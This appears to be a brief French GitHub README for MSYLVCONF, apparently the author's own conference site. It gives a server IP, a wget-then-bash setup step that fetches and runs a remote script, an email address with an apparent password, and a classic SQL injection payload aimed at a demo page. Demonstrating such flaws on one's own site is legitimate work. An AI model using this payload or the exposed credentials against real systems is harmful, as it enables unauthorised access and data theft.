 # MSYLVCONF
[Serveur IP : 20.163.115.50](https://20.163.115.50)  
[SpeedAccess](https://conferences.msylv.com/T5M/)  
[Automation.sh](https://raw.githubusercontent.com/maxencesylv/msylvconf/main/automation.sh)  
```
wget https://raw.githubusercontent.com/maxencesylv/msylvconf/main/automation.sh -O automation.sh  
bash automation.sh  
```
InjectionSQL  
Target : conferences.msylv.com/demo/O5A  
maxence.sylvestre@gouvernement.fr / INFORMATIQUE  
```
a' OR 'a'='a
```
